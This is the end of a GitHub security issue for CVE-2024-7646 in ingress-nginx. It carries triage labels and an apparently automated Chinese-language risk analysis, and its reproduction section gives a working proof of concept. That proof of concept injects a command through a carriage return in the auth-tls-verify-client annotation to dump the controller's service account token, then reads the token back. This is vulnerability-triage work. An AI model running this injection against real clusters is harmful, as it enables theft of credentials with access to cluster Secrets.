 The issue was fixed and coordinated by the fix team:
André Storfjord Kristiansen @dev-bio
Jintao Zhang @tao12345666333
Marco Ebert @Gacko

/triage accepted
/lifecycle frozen
/area security
/kind bug
/committee security-response

### 分析结果

**风险定级：**  
高风险

**判断依据：**  
## 分析内容

该Issue描述了在ingress-nginx中存在的一个高危安全漏洞（CVE-2024-7646）。具有创建Ingress对象权限的攻击者可以通过绕过注解验证，注入任意命令并获取ingress-nginx控制器的凭证。在默认配置下，该凭证具有访问集群中所有Secrets的权限。

根据风险判断标准：

1. **该风险能被攻击者利用**：是的，具有创建Ingress对象权限的攻击者可以利用此漏洞。

2. **该风险有可能成为一个漏洞，并被分配CVE编号，使用CVSS 3.1评分标准打分，结果要在high以上**：该漏洞已被分配CVE编号，CVSS评分为8.8，属于高风险。

8. **如果Issue可能导致命令执行、容器逃逸、提权等高安全风险的问题，则无论攻击者实施该攻击是否需要权限都应判断为高风险**：该漏洞可以导致任意命令执行和权限提升。

综上所述，该Issue存在高风险。

**复现过程：**

```json
[
  {
    "cmd": "cat > malicious-ingress.yaml <<EOF\napiVersion: networking.k8s.io/v1\nkind: Ingress\nmetadata:\n  name: malicious-ingress\n  annotations:\n    nginx.ingress.kubernetes.io/auth-tls-verify-client: \"on\\r; echo \\`cat /var/run/secrets/kubernetes.io/serviceaccount/token\\` > /tmp/leaked-token; #\"\nspec:\n  rules:\n  - host: example.com\n    http:\n      paths:\n      - path: /\n        pathType: Prefix\n        backend:\n          service:\n            name: dummy-service\n            port:\n              number: 80\nEOF",
    "explain": "创建一个包含恶意注解的Ingress配置文件，该注解通过注入换行符绕过验证，并执行任意命令，将服务账户令牌泄露到/tmp/leaked-token。"
  },
  {
    "cmd": "kubectl apply -f malicious-ingress.yaml",
    "explain": "将恶意Ingress资源应用到集群中。"
  },
  {
    "cmd": "POD_NAME=$(kubectl get pods -n ingress-nginx -l app.kubernetes.io/component=controller -o jsonpath='{.items[0].metadata.name}')",
    "explain": "获取ingress-nginx控制器的Pod名称。"
  },
  {
    "cmd": "kubectl exec -n ingress-nginx $POD_NAME -- cat /tmp/leaked-token",
    "explain": "在ingress-nginx控制器容器中查看泄露的服务账户令牌。"
  },
  {
    "cmd": "kubectl get secret $(kubectl get serviceaccount ingress-nginx -n ingress-nginx -o jsonpath='{.secrets[0].name}') -n ingress-nginx -o jsonpath='{.data.token}' | base64 -d",
    "explain": "获取ingress-nginx服务账户的实际令牌，与泄露的令牌进行比对，验证漏洞利用成功。"
  }
]
```

---